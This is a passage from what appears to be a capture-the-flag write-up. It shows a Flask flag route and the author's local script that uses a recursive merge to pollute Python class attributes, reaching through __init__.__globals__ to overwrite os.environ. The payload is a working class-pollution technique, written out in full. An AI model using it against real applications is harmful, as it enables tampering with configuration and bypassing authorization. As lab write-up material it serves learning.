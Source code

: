 ```python
flag = os.getenv("flag")

@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```

My first intuition was set the flag environment variable to true. I created a quick test script utilizing the logic from the blog post:

```python
class Feedback:
    def __init__(self):
        self.title = ""
        self.content = ""
        self.rating = ""
        self.referred = ""

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

def local_solve():
    print(os.getenv("flag"))
    obj = Feedback()
    exploit = {
        "__init__": {
            "__globals__": {
                "os": {
                    "environ": {
                        "flag": "true"
                    }
                }
            }
        }
    }
    merge(exploit, obj)
    print(os.getenv("flag"))

local_solve()
```
